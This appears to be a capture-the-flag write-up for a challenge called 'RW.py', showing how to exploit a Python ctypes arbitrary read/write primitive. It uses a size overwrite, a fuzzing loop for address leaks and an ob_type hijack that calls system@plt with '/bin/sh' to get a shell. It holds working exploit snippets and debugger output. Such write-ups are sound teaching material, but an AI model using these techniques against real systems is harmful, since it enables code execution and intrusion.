

##  RW.py

points: 335


In the attachment we have `rw.py` and a dockerfile.
These are the contents of rw.py

```python
#!/usr/bin/env python3

import ctypes

a = [{}, (), [], "", 0.0]
while True:
    try:
        inp = input("> ")
        cmd, idx, *val = inp.split()
        idx = int(idx)
        match cmd:
            case "r":
                print(a[idx])
            case "w":
                ctypes.cast(
                    id(a) + idx, ctypes.POINTER(ctypes.c_char)
                )[0] = int(val[0])
            case _:
                break
    except Exception as e:
        print("error:", e)
```

On analyzing this, we have an object `a` over which we have arbitrary write and read.
`a` here is a `PyObject`
Here's how they are defined:

```c
typedef struct {
     Py_ssize_t ob_refcnt;   /* object reference count */
     PyTypeObject* ob_type;  /* object type */
};
```

Alright let's try to put the arbitrary read and write to use.

For reading we have to give `r [num]` as our input, and we only give till 4, after 4 it gives out of index error, maybe we can change that..

To find our python object while debugging, i start writing `0xdeadbeef` in the start, it will only overwrite `ob_refcnt` field which we dont really care about.
Once thats done we can use `search -t qword 0xdeadbeef` command in pwndbg to get the address of our object

```
Note: For degbugging, you can run the rw.py file and attach gdb to it by finding the pid of python process by making use of `ps aux` and `sudo gdb -x ~/.gdbinit -p <pid>.` 
```

```
pwndbg> search -t dword   0xdaedbeef
Searching for a 4-byte integer: b'\xef\xbe\xed\xda'
[anon_7f58bbc00] 0x7f58bbc01e80 0xdaedbeef
pwndbg> x/4gx 0x7f58bbc01e80
0x7f58bbc01e80:	0x00000000daedbeef	0x00007f58bc8a0d60
0x7f58bbc01e90:	0x0000000000000005	0x00007f58bbc9de60
```

Here we can notices the 0x5 in 0x7f58bbc01e90
if we try to change it to 0xff by doing `w 16 255`
```
pwndbg> x/4gx 0x7f58bbc01e80
0x7f58bbc01e80:	0x00000000daedbef3	0x00007f58bc8a0d60
0x7f58bbc01e90:	0x00000000000000ff	0x00007f58bbc9de60
```
and we get

```
> w 16 255
> r 5
Segmentation fault
```

ok.. it's not out of index anymore, on gdb it showed it wasn't able to dereference 0, it's a matter of using the right index which we can find by making a short fuzz script for the docker environment

```python
def fuzz():
    for i in range(8500,10500):
        try:
            #r = process("./rw.py")
            r = remote('127.0.0.1',1337)
            r.sendlineafter(b'>',b'w 16 255')
            r.sendlineafter(b'>',b'w 17 255')
            r.sendlineafter(b'>',b'r '+str(i).encode())
            l = r.recvline()
            if l and b'0x' in l :
                log.info(f"at {i} : {l}")
                pause()
            r.close()
        except EOFError:
            pass
```

I find interesting leaks at 340 and 706

```
> w 16 255
> w 17 255
> r 340
<cell at 0x7fe1b10955d0: str object at 0x7fe1b109b870>
> r 706
{<weakref at 0x7fe1b10a4400; to 'type' at 0x557664c44ba0 (tuple)>, <weakref at 0x7fe1b10a44a0; to 'type' at 0x557664c447c0 (str)>, <weakref at 0x7fe1b10a45e0; to 'type' at 0x557664c46040 (memoryview)>, <weakref at 0x7fe1b10a4540; to 'type' at 0x557664c45820 (range)>}
>
```

Debuggging the process in container and using vmmap i determine that using 304 i get leak from fixed offset from our object `a` and from 706 i get a leak of `/usr/bin/python3.10` which looks like `0x55..`

```
Note: the process in container can be debugged in same way earlier
```

I also extract the `/usr/bin/python3.10` from container to make it easy for me to run ROPgadget on it.

Now we have a leak which can gives the address of out PyObject and a leak for `/usr/bin/python3.10`, usually on exiting python should call a deconstructor on our object, that would make an interesting code path to exploit
Since python stores `ob_type` pointer, it points to a struct with a lot of information for the object and functions which get called under the hood, something for deallocation too.
So i'll modify obj+8 to write '0x41414141` and see what happens.

```
> w 8 65
> w 9 65
> w 10 65
> w 11 65
> _ 0
```

and in gdb we see



And we see this interesting instruction `0x5594eeb993de    call   qword ptr [r14 + 0xb8]`

where `r14` has the modified pointer from `obj+8` which we can notices because 0x41 in decimal is 65.

So while exiting it will load `obj+8` in r14 and call whatever is at `*(obj+8)+0xb8`, so we can modify it to point to somewhere in object area because we can control this area with arbitrary write

I decide to do something like this
```c
*(obj+8)=obj+16-0xb8
```
and write something at `obj+16`


I was stuck here for a very long time, since i was trying ropping and using syscalls, unable to pivot the stack. Having no leak for system from libc, i couldnt call system directly from there, i tried fuzzing huge indexes to get leaks like those

Then i realized the python binary might have plts which resolve the addresses, thanks to gpt :')

```
$ objdump -d python3.10 | grep system
000000000006f460 <system@plt>:
   6f464:	f2 ff 25 9d 2c 4f 00 	bnd jmp *0x4f2c9d(%rip)        # 562108 <system@GLIBC_2.2.5>
   d0407:	e8 54 f0 f9 ff       	call   6f460 <system@plt>
```

awesome.

So we can call system, and `RDI` points to `obj` so we can write the `/bin/sh` str at obj, write `system@plt` at `obj+16` and make `obj+8` `obj+16-0xb8`
```python
w64(r,obj,obj,u64(b'/bin/sh\x00'))
w64(r,obj+8,obj,(obj+16)-0xb8)
w64(r,obj+16,obj,system_plt)
r.sendlineafter(b'>',b'_ 0')
```

With this our payload is ready and can exit to get the shell!!


```
(.venv) [crabsnk@void rw]$ python solve.py
[+] Opening connection to localhost on port 1337: Done
[*] l1 -> 0x7fc5f0a195d0
[*] l2 -> 0x7fc5f0a1f870
[*] obj -> 0x7fc5f0a55a00
[*] /bin/python - > 0x55a608d56000
[*] system_plt at -> 0x55a608dc5464
[*] Paused (press any to continue)
[*] Switching to interactive mode
 $ ls
flag.txt
get-flag
pwn
$ cat flag.txt
get dis man
$
```

the [solve script](./solve.py)
